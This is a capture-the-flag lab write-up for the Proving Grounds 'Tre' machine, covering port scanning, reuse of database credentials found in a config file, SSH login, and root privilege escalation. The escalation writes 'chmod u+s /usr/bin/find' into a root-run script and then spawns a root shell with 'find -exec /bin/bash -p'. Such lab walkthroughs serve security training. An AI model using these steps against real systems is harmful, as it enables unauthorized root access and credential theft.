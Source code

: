 ```yaml
---
title: Tre
categories: [Proving Grounds Play]
tags: [PrivEsc, SUIDs, mysql]
image:
  path: https://miro.medium.com/v2/resize:fit:1400/1*tvdj2Mzlt4OnmYeU9vmBlA.jpeg
  alt:  Tre Machine 🖥️
---
```



### Lets see the IP address →

```bash
IP : 192.168.249.142
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.142
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-16 14:29 IST
Nmap scan report for 192.168.249.142
Host is up (0.00028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
MAC Address: 00:0C:29:7F:7E:7D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ➡️

Lets see the webpage →

![Untitled](/Vulnhub-Files/img/Tre/Untitled.png)

Now after directory Traversal I found different sites or directories running different services so lets see the config files first for credentials →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Tre/Untitled%202.png)

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```
{: .nolineno}

Lets use this credentials here `adminer.php` file →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%203.png)

After entering that data I am in →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%204.png)

Now I got the username and password credentials so lets alter that data and use it to login into the shell with our put data into it →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%205.png)

Now lets modify it now →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%206.png)

Now lets use this to replace our password hashes and save that →

I tried to access the ssh login with hash password but no luck , then I tried its different looking realnames and tried it as a passwords and see I got in as tre user →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142     
tre@192.168.249.14 password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 12 23:56:00 2020 from 192.168.17.172
tre@tre:~$ whoami
tre
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
tre@tre:~$
```
{: .nolineno}

Lets see `local.txt` file →

```bash
tre@tre:~$ ls -al
total 24
drwxr-xr-x 2 tre  tre  4096 Aug 23  2020 .
drwxr-xr-x 3 root root 4096 May 11  2020 ..
-rw-r--r-- 1 tre  tre   220 May 11  2020 .bash_logout
-rw-r--r-- 1 tre  tre  3526 May 11  2020 .bashrc
-rw-r--r-- 1 tre  tre    33 Jul 16 06:52 local.txt
-rw-r--r-- 1 tre  tre   807 May 11  2020 .profile
tre@tre:~$ cat local.txt
ec6b0276b5cbf898afe3bdb7c8da36b1
tre@tre:~$
```
{: .nolineno}

Now while cheching proccess running I got this →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%207.png)

```bash
tre@tre:/tmp$ ls -al /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
tre@tre:/tmp$
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
tre@tre:/tmp$
```
{: .nolineno}

So after trying this `sudo shutdown` I got this →

```bash
tre@tre:/tmp$ sudo shutdown
Shutdown scheduled for Sun 2023-07-16 06:28:59 EDT, use 'shutdown -c' to cancel.
tre@tre:/tmp$
```
{: .nolineno}

means that I execute my command on writing into `/usr/bin/check-system` file and when I execute the `sudo shutdown` command it will also execute as root user so lets do it —>

```bash
tre@tre:~$ echo 'chmod u+s /usr/bin/find'> /usr/bin/check-system
tre@tre:~$ sudo /sbin/shutdown -r now
tre@tre:~$ Connection to 192.168.249.142 closed by remote host.
Connection to 192.168.249.142 closed.
```
{: .nolineno}

Now its time to restart the tre shell with ssh commands and lets check the `/usr/bin/find` command got SUIDs permissions or not →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142 -p 22    
tre@192.168.249.142s password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 16 06:35:35 2023 from 192.168.249.128
tre@tre:~$ ls -al /usr/bin/find
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
tre@tre:~$ find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
bash-5.0# cd /root
bash-5.0# ls -al
total 24
drwx------  2 root root 4096 Jul 16 06:52 .
drwxr-xr-x 18 root root 4096 Jul  7  2020 ..
-rw-------  1 root root    0 Sep  3  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 16 06:52 proof.txt
-rw-r--r--  1 root root   32 Aug 23  2020 root.txt
bash-5.0# cat proof.txt
71a1ba68d15d0ebde47c8b8090b065cf
bash-5.0# cat root.txt
Your flag is in another file...
bash-5.0#
```